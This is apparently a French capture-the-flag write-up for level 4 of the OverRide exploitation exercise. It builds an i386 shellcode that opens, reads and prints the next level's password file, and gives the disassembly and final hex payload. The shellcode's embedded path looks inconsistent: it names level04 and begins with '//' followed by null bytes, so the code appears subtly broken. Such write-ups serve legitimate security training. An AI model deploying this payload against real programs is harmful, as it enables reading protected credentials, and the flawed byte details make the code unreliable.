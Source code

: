 # Level04

Nous remarquons la presence d'un fork, qui nous empeche de garde la main avec un simple shellcode.
Nous devons realiser notre propre shellcode file reader architecture i386,
il fera un open, read et write sur le fichier .pass du level suivant.

Le code asm est disponnible dans le fichier shell.s dans le dossier resources.

Ensuite nous recuperons sont code en hexa grace a obj dump.

```
level04@OverRide:/tmp/test$ objdump -d shellcode

shellcode:     file format elf32-i386

Disassembly of section .text:

08048060 <_start>:
 8048060:	31 c9                	xor    %ecx,%ecx
 8048062:	f7 e1                	mul    %ecx

08048064 <open>:
 8048064:	b0 05                	mov    $0x5,%al
 8048066:	51                   	push   %ecx
 8048067:	68 70 61 73 73       	push   $0x73736170
 804806c:	68 30 34 2f 2e       	push   $0x2e2f3430
 8048071:	68 65 76 65 6c       	push   $0x6c657665
 8048076:	68 72 73 2f 6c       	push   $0x6c2f7372
 804807b:	68 2f 75 73 65       	push   $0x6573752f
 8048080:	68 68 6f 6d 65       	push   $0x656d6f68
 8048085:	68 2f 2f 00 00       	push   $0x2f2f
 804808a:	89 e3                	mov    %esp,%ebx
 804808c:	cd 80                	int    $0x80

0804808e <read>:
 804808e:	93                   	xchg   %eax,%ebx
 804808f:	91                   	xchg   %eax,%ecx
 8048090:	b0 03                	mov    $0x3,%al
 8048092:	66 ba ff 0f          	mov    $0xfff,%dx
 8048096:	42                   	inc    %edx
 8048097:	cd 80                	int    $0x80

08048099 <write>:
 8048099:	92                   	xchg   %eax,%edx
 804809a:	b3 01                	mov    $0x1,%bl
 804809c:	c1 e8 0a             	shr    $0xa,%eax
 804809f:	cd 80                	int    $0x80

080480a1 <exit>:
 80480a1:	93                   	xchg   %eax,%ebx
 80480a2:	cd 80                	int    $0x80
```

Ce qui nous donne :
```
"\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x70\x61\x73\x73\x68\x30\x34\x2f\x2e\x68\x65\x76\x65\x6c\x68\x72\x73\x2f\x6c\x68\x2f\x75\x73\x65\x68\x68\x6f\x6d\x65\x68\x2f\x2f\x00\x00\x89\xe3\xcd\x80\x93\x91\xb0\x03\x66\xba\xff\x0f\x42\xcd\x80\x92\xb3\x01\xc1\xe8\x0a\xcd\x80\x93\xcd\x80"
```

